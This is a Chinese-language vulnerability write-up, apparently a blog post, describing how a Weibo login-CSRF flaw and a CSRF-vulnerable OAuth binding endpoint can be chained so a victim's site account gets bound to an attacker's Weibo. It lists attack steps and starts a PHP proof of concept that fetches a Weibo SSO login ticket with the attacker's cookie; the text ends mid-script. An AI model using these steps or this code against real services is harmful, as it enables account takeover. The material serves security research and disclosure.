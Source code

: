![0x02.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x02.png)

## 验证猜想

### 流程

个人中心有这个第三方的账号绑定：

![0x03.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x03.png)

在这里QQ、github、微博、微信四个第三方账号绑定中我有了微博的`CSRF之你登陆我的账号`这个缺陷，所以这里测试下微博的第三方账号绑定。

页面有微博账号绑定的跳转链接：

![0x04](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x04.png)

通过这个链接进入了绑定的界面（未登陆微博）：

![0x05.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x05.png)

通过这个链接进入了绑定的界面（已登陆微博）：

![0x06.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x06.png)

当我授权绑定之后，微博发生了变化，管理中心->我的应用->我的应用：

![0x07.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x07.png)

会多出这个网站在里面，那么这个变化是对我们有利的，还是？

这里我解绑了微博，然后再使用这个已经授权了的微博进行绑定，发现居然不用点击授权了，直接就绑定了。

很显然，在这里这个`便利`解决了一些攻击的利用难度。

### 实现

我们现在具备的几个条件：

1. 微博的`CSRF之你登陆我的账号`缺陷：

登陆你的微博，然后访问http://login.sina.com.cn/sso/crossdomain.php?action=login，会返回这样的内容给你：

![0x08.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x08.png)

其中arrURL对应的链接就是凭证登陆的~

2. 你的微博已经授权过了要存在缺陷的网站(这里方便直接跳转而不用再去点击按钮！所以你可以先用自己的微博绑定下存在缺陷的网站的账号，然后解绑就行了~)
3. 绑定请求存在csrf的缺陷（这里因为是GET请求类型 `/oauth/weibo/redirect`，而一般不会对GET请求类型进行CSRF的限制~~）

#### 场景1.攻击步骤：

对方点开凭证链接登陆了你的微博，对方点开绑定微博的链接，绑定了你的微博，完成攻击。

考虑到凭证时效性的问题，在这里写了一个动态的PoC：

```php
<?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket={$res[1]}&ssosavestate=1556602678";
```
